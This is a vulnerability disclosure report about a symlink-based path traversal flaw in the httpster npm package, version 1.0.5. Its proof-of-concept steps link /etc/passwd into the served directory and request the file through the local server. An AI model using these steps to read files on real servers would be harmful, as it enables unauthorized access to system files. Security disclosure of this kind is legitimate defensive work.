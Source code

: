 # Description

I would like to report path traversal vulnerability in httpster module
It allows an attacker to read system files via path traversal vulnerability

Module
-------------------------------------------
module name: httpster
version: 1.0.5(latest)
npm page: https://www.npmjs.com/package/httpster

Module Description

Simple http server for quick loading of content.

Weekly Downloads
------------------------------------------------
9,164
Vulnerability

Vulnerability Description

With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.

# PoC

Steps To Reproduce:
--------------------------------------------------

1) Install the httpster module
$ npm -g install httpster

2)Make a directory
$ mkdir test

3)Go to 'test' directory
$ cd test

4)create a symlink file
ln -s /etc/passwd 'filename'

5)Run httpster module
$ httpster

6)Request the file within browser
http://localhost:3333/'filename'


Supporting Material/References:
--------------------------------------------------------------------------------------

These are similar reports
https://hackerone.com/reports/510043
https://hackerone.com/reports/695416

[OPERATING SYSTEM VERSION] Ubuntu 18.04.3 LTS
[NODEJS VERSION] v8.10.0
[NPM VERSION] 3.5.2
[BROWSER] Mozilla Firefox 72.0.1 (64-bit)



Impact
----------------------------------------------------------------------
This could have enabled an attacker to view system files and leverage attacks like remote code execution and so on
